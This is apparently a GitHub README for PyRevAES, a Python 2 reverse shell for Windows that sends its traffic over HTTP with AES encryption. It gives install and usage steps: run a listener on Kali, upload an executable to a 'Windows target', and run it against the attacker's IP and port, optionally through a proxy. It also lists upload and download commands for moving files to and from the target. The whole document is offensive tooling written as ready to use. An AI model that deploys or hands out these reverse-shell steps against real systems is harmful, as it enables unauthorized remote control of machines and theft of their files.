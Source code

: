 <h1 align="center">
	<img width="400" src="pyrevaes.png" alt="PyRevAES">
</h1>

# PyRevAES

A Windows Reverse Shell using HTTP methods with 256-bit AES encryption written in python2.

If I get some time, I will convert this to a python3 project.


## Install:
1. ```git clone https://github.com/simon-revit/PyRevAES.git```
2. ```pip2 install -r requirements.txt```
3. ```python2 server_shell_http.py```
4. choose port ```80``` - Other ports may work, but it works best with port ```80```

## Usage:
1. Run server_shell_http.py from kali (and choose port 80)
```
sudo python2 server_shell_http.py
```
2. Upload client_shell_http.exe to Windows target
3. Run the following command on the target for a reverse shell without proxy:
```
C:\client_shell_http.exe <kali_ip> 80
```
4. Run the following command for a reverse shell with proxy:
```
C:\client_shell_http.exe <kali_ip> <kali_port> <proxy_address> <Proxy_port>
```

## EXTRAS:
```client_shell_http.py``` - If you want to create your own executable or run directly from python,  code is available.

```TCP_proxy_online.py``` - TCP proxy from https://stackoverflow.com/questions/32468270/tcp-proxy-using-python Purely the work of voorloop. You might need to modfy lines 16 and 94 to modify the forwarded reverseshell/port and the proxy port, respectively.

```get-pip.py``` To install pip for python2 (after deprecation). Reference: https://bootstrap.pypa.io/

NB: If changing the ```secret``` AES encryption key, ensure you change both the client and server scripts to match.

## COMMANDS:
```upload [filename]```

```download [filename]```     => Need to rename file after download.

```winreg```                 => displays help message

## Issues:
If there are issues with pip2 installation (due to deprecation) refer to this https://bootstrap.pypa.io/ to get pip working again for python2. 

If there are issues with pycrypto, install the following:
```sudo apt install build-essential libssl-dev libffi-dev python-dev```

If still having issues, try running everything using sudo.


## Notes:
- Logo made with courtesy of https://www.freelogodesign.org/
